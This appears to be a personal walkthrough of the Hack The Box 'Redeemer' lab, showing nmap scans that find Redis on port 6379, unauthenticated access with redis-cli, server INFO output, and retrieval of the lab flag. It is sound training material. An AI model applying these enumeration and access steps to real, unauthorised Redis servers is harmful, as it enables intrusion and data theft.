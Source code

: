 # HTB Redeemer
Starting Point

2024-11-11

Target IP - 10.129.136.187

Redis - 'In-memory' database

# Enumeration
Scanned with nmap.
No ports shown on initial scan.
Host stopped responding to nmap after initial scan.
Used -Pn flag to complete scan.

	┌─[us-starting-point-1-dhcp]─[10.10.15.82]─[jcaruso@htb-ovilbvmvlt]─[~]
	└──╼ [★]$ nmap -sV 10.129.136.187
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 11:16 CST
	Nmap scan report for 10.129.136.187
	Host is up (0.0096s latency).
	All 1000 scanned ports on 10.129.136.187 are in ignored states.
	Not shown: 1000 closed tcp ports (reset)

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds

	┌─[us-starting-point-1-dhcp]─[10.10.15.82]─[jcaruso@htb-ovilbvmvlt]─[~]
	└──╼ [★]$ nmap -sV 10.129.136.187
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 11:18 CST
	Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
	Nmap done: 1 IP address (0 hosts up) scanned in 3.16 seconds

	┌─[us-starting-point-1-dhcp]─[10.10.15.82]─[jcaruso@htb-ovilbvmvlt]─[~]
	└──╼ [★]$ nmap -Pn -p 1-65535 10.129.136.187
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 11:18 CST
	Nmap scan report for 10.129.136.187
	Host is up (0.0086s latency).
	Not shown: 65424 closed tcp ports (reset), 110 filtered tcp ports (no-response)
	PORT     STATE SERVICE
	6379/tcp open  redis

	Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds

## Port Found
6379/tcp open  redis

## Connect to redis database
	redis-cli -h 10.129.136.187

## Get list of keys
	KEYS *

Machine has gone offline. Resetting machine.
Connected but lost connection again.
Reset machine again.
Connected but lost connection again.
Problem appears to be with using Pwnbox. Switched to using kali in WSL on my machine.

Connected to redis database at new target IP:
	redis-cli -h 10.129.76.86

	┌──(lith㉿DESKTOP-921J5TE)-[~]
	└─$ redis-cli -h 10.129.76.86
	10.129.76.86:6379> info
	# Server
	redis_version:5.0.7
	redis_git_sha1:00000000
	redis_git_dirty:0
	redis_build_id:66bd629f924ac924
	redis_mode:standalone
	os:Linux 5.4.0-77-generic x86_64
	arch_bits:64
	multiplexing_api:epoll
	atomicvar_api:atomic-builtin
	gcc_version:9.3.0
	process_id:751
	run_id:352611c0231b36e86bbc20adada7b941553d9d48
	tcp_port:6379
	uptime_in_seconds:763
	uptime_in_days:0
	hz:10
	configured_hz:10
	lru_clock:3293749
	executable:/usr/bin/redis-server
	config_file:/etc/redis/redis.conf

	# Clients
	connected_clients:1
	client_recent_max_input_buffer:2
	client_recent_max_output_buffer:0
	blocked_clients:0

	# Memory
	used_memory:859624
	used_memory_human:839.48K
	used_memory_rss:5804032
	used_memory_rss_human:5.54M
	used_memory_peak:859624
	used_memory_peak_human:839.48K
	used_memory_peak_perc:100.12%
	used_memory_overhead:846142
	used_memory_startup:796224
	used_memory_dataset:13482
	used_memory_dataset_perc:21.26%
	allocator_allocated:1570200
	allocator_active:1892352
	allocator_resident:9101312
	total_system_memory:2084024320
	total_system_memory_human:1.94G
	used_memory_lua:41984
	used_memory_lua_human:41.00K
	used_memory_scripts:0
	used_memory_scripts_human:0B
	number_of_cached_scripts:0
	maxmemory:0
	maxmemory_human:0B
	maxmemory_policy:noeviction
	allocator_frag_ratio:1.21
	allocator_frag_bytes:322152
	allocator_rss_ratio:4.81
	allocator_rss_bytes:7208960
	rss_overhead_ratio:0.64
	rss_overhead_bytes:-3297280
	mem_fragmentation_ratio:7.10
	mem_fragmentation_bytes:4986416
	mem_not_counted_for_evict:0
	mem_replication_backlog:0
	mem_clients_slaves:0
	mem_clients_normal:49694
	mem_aof_buffer:0
	mem_allocator:jemalloc-5.2.1
	active_defrag_running:0
	lazyfree_pending_objects:0

	# Persistence
	loading:0
	rdb_changes_since_last_save:4
	rdb_bgsave_in_progress:0
	rdb_last_save_time:1731346234
	rdb_last_bgsave_status:ok
	rdb_last_bgsave_time_sec:-1
	rdb_current_bgsave_time_sec:-1
	rdb_last_cow_size:0
	aof_enabled:0
	aof_rewrite_in_progress:0
	aof_rewrite_scheduled:0
	aof_last_rewrite_time_sec:-1
	aof_current_rewrite_time_sec:-1
	aof_last_bgrewrite_status:ok
	aof_last_write_status:ok
	aof_last_cow_size:0

	# Stats
	total_connections_received:5
	total_commands_processed:6
	instantaneous_ops_per_sec:0
	total_net_input_bytes:306
	total_net_output_bytes:11572
	instantaneous_input_kbps:0.00
	instantaneous_output_kbps:0.00
	rejected_connections:0
	sync_full:0
	sync_partial_ok:0
	sync_partial_err:0
	expired_keys:0
	expired_stale_perc:0.00
	expired_time_cap_reached_count:0
	evicted_keys:0
	keyspace_hits:0
	keyspace_misses:0
	pubsub_channels:0
	pubsub_patterns:0
	latest_fork_usec:0
	migrate_cached_sockets:0
	slave_expires_tracked_keys:0
	active_defrag_hits:0
	active_defrag_misses:0
	active_defrag_key_hits:0
	active_defrag_key_misses:0

	# Replication
	role:master
	connected_slaves:0
	master_replid:9eed2cc0c60552ffc9bf5245b5c025bb0c843856
	master_replid2:0000000000000000000000000000000000000000
	master_repl_offset:0
	second_repl_offset:-1
	repl_backlog_active:0
	repl_backlog_size:1048576
	repl_backlog_first_byte_offset:0
	repl_backlog_histlen:0

	# CPU
	used_cpu_sys:0.950799
	used_cpu_user:0.866520
	used_cpu_sys_children:0.000000
	used_cpu_user_children:0.000000

	# Cluster
	cluster_enabled:0

	# Keyspace
	db0:keys=4,expires=0,avg_ttl=0
	(0.96s)

10.129.76.86:6379> keys *
	1) "flag"
	2) "temp"
	3) "numb"
	4) "stor"

# Flag Captured
10.129.76.86:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"


